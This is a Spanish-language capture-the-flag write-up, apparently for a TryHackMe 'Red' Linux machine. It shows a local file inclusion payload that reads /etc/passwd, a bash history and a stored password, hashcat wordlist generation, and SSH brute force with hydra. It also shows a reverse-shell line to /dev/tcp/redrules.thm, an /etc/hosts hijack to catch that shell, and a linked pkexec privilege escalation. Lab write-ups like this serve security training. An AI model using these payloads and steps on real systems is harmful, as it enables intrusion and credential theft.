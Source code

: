 #Linux #Easy 
## Nmap 
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[webatlanta.png | 900]]

Directamente en la web vemos esto: ``http://10.10.228.16/index.php?page=home.html``
## Local File Inclusion

[Example](https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb)
Podemos ver el contenido del archivo ``.php`` de la pagina.
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=index.php"
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

aprovechamos para ver el ``/etc/passwd``
```python
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash

```

Miramos el ``.bash_history`` para ver el historial de comandos ejecutados.
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/home/blue/.bash_history"
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

Veo algunos comandos, esta creando una listas de passwords con el contenido de el archivo ``.reminder`` y lo guarda en un ``passlist.txt``

El archivo ``.reminder`` contiene esto:
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/home/blue/.reminder"
sup3r_p@s$w0rd!
```

Voy a crear una lista de passwords al igual que se hizo en la maquina:
```bash
❯ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
❯ ls
passlist.txt
```

Fuerza Bruta con ``hydra``
```bash
❯ hydra -l blue -P passlist.txt ssh://10.10.139.248
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-24 15:59:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.139.248:22/
[22][ssh] host: 10.10.139.248   login: blue   password: sup3r_p@s$w0!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-24 16:00:12
```

Al ejecutar pspy, podemos ver este proceso ejecutándose: 
```bash
2023/10/24 20:08:55 CMD: UID=1001  PID=14911  | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```

Se manda una revShell a el dominio ``redrules.thm``, vamos a ver a que apunta esto en el ``etc/hosts``:
```bash
blue@red:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```

El dominio no apunta a ningún lado, pero podemos modificar el archivo ``etc/hosts`` porque tenemos permisos:
```bash
blue@red:~$ ls -la /etc/ | grep hosts
-rw-r--rw-   1 root adm         242 Oct 24 20:12 hosts
```

```bash
echo "10.8.189.249 redrules.thm" >> /etc/hosts
```

### Escalada de Priv

Buscamos Binarios con permisos ``SUID``
```bash
find / -type f -perm -04000 -ls 2>/dev/null

418507     32 -rwsr-xr-x   1 root     root        31032 Aug 14  2022 /home/red/.git/pkexec
```

[Exploit para elevar priv](https://github.com/Almorabea/pkexec-exploit/tree/main)

Modificamos la linea:
```bash
libc.execve(b'/usr/bin/pkexec', c_char_p(None), environ_p)
```

Ponemos la ruta de pkexec. 

Ya somos ROOT

